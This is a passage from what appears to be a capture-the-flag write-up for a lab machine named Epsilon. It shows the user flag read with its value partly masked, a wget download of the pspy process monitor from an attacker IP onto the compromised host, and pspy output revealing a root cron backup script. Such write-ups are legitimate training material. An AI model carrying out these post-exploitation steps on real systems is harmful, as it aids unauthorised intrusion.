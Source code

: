 
And grab `user.txt`:

    
    
    tom@epsilon:~$ cat user.txt
    9ae137b0************************
    

## Shell as root

### Enumeration

There isn’t much else in tom’s home directory. There is an interesting but
empty directory at `/opt/backups`.

I’ll upload [pspy](https://github.com/DominicBreuker/pspy):

    
    
    tom@epsilon:/dev/shm$ wget 10.10.14.8/pspy64
    --2022-03-09 20:40:37--  http://10.10.14.8/pspy64
    Connecting to 10.10.14.8:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3078592 (2.9M) [application/octet-stream]
    Saving to: ‘pspy64’
    
    pspy64              100%[===================>]   2.94M  3.53MB/s    in 0.8s    
    
    2022-03-09 20:40:38 (3.53 MB/s) - ‘pspy64’ saved [3078592/3078592]
    tom@epsilon:/dev/shm$ chmod +x pspy64
    

On running, it seems to find `/usr/bin/backup.sh` running every minute:

    
    
    pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
                                                                                                             
                                                                                                             
         ██▓███    ██████  ██▓███ ▓██   ██▓                                                                                                                                                                            
        ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒                                                                  
        ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░                                                                  
        ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░                                                                  
        ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░                                                                  
        ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒                                                                                                                                                                             
        ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░                                                                   
        ░░       ░  ░  ░  ░░       ▒ ▒ ░░                                                                    
                       ░           ░ ░                                                                       
                                   ░ ░                                                                       
                                                                                                                                                                                                                       
    Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursi
    ve) | [] (non-recursive)
    Draining file system events due to startup...
    done
    ...[snip]...
    2022/03/09 20:42:01 CMD: UID=0    PID=3754   | /usr/sbin/CRON -f 
    2022/03/09 20:42:01 CMD: UID=0    PID=3755   | /bin/sh -c /usr/bin/backup.sh 
    2022/03/09 20:42:01 CMD: UID=0    PID=3756   | /bin/bash /usr/bin/backup.sh 
    2022/03/09 20:42:01 CMD: UID=0    PID=3759   | /usr/bin/tar -cvf /opt/backups/462504870.tar /var/www/app/ 
    2022/03/09 20:42:01 CMD: UID=0    PID=3761   | /bin/bash /usr/bin/backup.sh 
    2022/03/09 20:42:01 CMD: UID=0    PID=3760   | sha1sum /opt/backups/462504870.tar 
    2022/03/09 20:42:01 CMD: UID=0    PID=3762   | sleep 5 
    2022/03/09 20:42:06 CMD: UID=0    PID=3763   | 
    2022/03/09 20:42:06 CMD: UID=0    PID=3764   | /usr/bin/tar -chvf /var/backups/web_backups/477319990.tar /opt/backups/checksum /opt/backups/462504870.tar 
    2022/03/09 20:42:06 CMD: UID=0    PID=3765   | 
    ...[snip]...
    